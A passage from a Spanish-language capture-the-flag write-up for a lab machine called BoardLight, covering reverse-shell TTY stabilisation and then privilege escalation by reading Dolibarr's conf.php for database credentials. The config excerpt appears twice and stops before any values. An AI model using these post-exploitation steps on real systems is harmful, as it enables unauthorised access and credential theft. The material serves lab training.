 Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla`

```
# stty size
45 18
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation

Buscamos en google `Dolibarr conf file path`

![](/assets/img/BoardLight/image_6.png)

Nos dirigimos a esa `ruta` y obtenemos unas `credenciales`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ pwd
/var/www/html/crm.board.htb/htdocs/conf
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
```